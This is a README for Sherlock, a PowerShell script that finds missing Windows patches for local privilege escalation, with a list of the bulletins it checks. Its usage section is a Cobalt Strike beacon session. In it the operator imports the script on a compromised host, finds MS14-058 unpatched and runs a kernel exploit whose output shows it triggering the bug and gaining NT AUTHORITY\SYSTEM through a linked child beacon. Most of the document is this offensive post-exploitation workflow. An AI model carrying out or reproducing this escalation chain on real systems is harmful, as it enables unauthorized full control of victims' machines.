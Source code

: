# Sherlock

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

## Currently looks for:

* MS10-015 : User Mode to Ring (KiTrap0D)
* MS10-092 : Task Scheduler
* MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
* MS13-081 : TrackPopupMenuEx Win32k NULL Page
* MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
* MS15-051 : ClientCopyImage Win32k
* MS15-078 : Font Driver Buffer Overflow
* MS16-016 : 'mrxdav.sys' WebDAV
* MS16-032 : Secondary Logon Handle
* MS16-135 : Win32k Elevation of Privilege
* CVE-2017-7199 : Nessus Agent 6.6.2 - 6.10.3 Priv Esc

## Basic Usage:

```
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are Win7-x64\Rasta

beacon> powershell-import C:\Users\Rasta\Desktop\Sherlock.ps1
[*] Tasked beacon to import: C:\Users\Rasta\Desktop\Sherlock.ps1
[+] host called home, sent: 2960 bytes

beacon> powershell Find-MS14058
[*] Tasked beacon to run: Find-MS14058
[+] host called home, sent: 20 bytes
[+] received output:

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Appears Vulnerable

beacon> elevate ms14-058 smb
[*] Tasked beacon to elevate and spawn windows/beacon_smb/bind_pipe (127.0.0.1:1337)
[+] host called home, sent: 105015 bytes
[+] received output:
[*] Getting Windows version...
[*] Solving symbols...
[*] Requesting Kernel loaded modules...
[*] pZwQuerySystemInformation required length 51216
[*] Parsing SYSTEM_INFO...
[*] 173 Kernel modules found
[*] Checking module \SystemRoot\system32\ntoskrnl.exe
[*] Good! nt found as ntoskrnl.exe at 0x0264f000
[*] ntoskrnl.exe loaded in userspace at: 40000000
[*] pPsLookupProcessByProcessId in kernel: 0xFFFFF800029A21FC
[*] pPsReferencePrimaryToken in kernel: 0xFFFFF800029A59D0
[*] Registering class...
[*] Creating window...
[*] Allocating null page...
[*] Getting PtiCurrent...
[*] Good! dwThreadInfoPtr 0xFFFFF900C1E7B8B0
[*] Creating a fake structure at NULL...
[*] Triggering vulnerability...
[!] Executing payload...

[+] host called home, sent: 204885 bytes
[+] established link to child beacon: 192.168.56.105

[+] established link to parent beacon: 192.168.56.105

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
```